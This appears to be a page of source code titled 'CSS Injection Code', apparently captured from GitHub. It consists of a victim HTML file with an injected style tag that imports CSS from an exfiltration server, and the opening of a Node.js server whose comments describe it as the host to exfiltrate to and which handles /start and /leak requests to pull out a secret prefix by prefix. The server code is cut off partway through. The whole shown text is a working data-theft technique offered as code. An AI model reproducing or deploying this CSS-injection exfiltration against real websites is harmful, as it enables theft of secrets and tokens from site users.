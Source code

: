 # CSS Injection Code


```html:victim.html
<!DOCTYPE html>
<body>
  <div>
    <article>
      <div>
        
        <div>
          <div>
            <div>
              <div>
                <div>
                  
                  <style>
                    @import url("//localhost:5001/start?");
                  </style>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </article>
  </div>
</body>
```
```
```javascript:server.js
const http = require("http")
const url = require("url")

// Port to exfiltrate to
const port = 5001
// Host to exfiltrate to
const HOSTNAME = "http://localhost:5001"
const DEBUG = false

var prefix = "",
  postfix = ""
var pending = []
var stop = false,
  ready = 0,
  n = 0

const requestHandler = (request, response) => {
  let req = url.parse(request.url, url)
  log("\treq: %s", request.url)

  //If stop, leakeage is finished
  if (stop) return response.end()

  switch (req.pathname) {
    // This only launched when starting the leakeage
    case "/start":
      genResponse(response)
      break

    // Everytime something is leaked
    case "/leak":
      response.end()
      // If response comes with a pre, then we leaked some preffix s(E)cret
```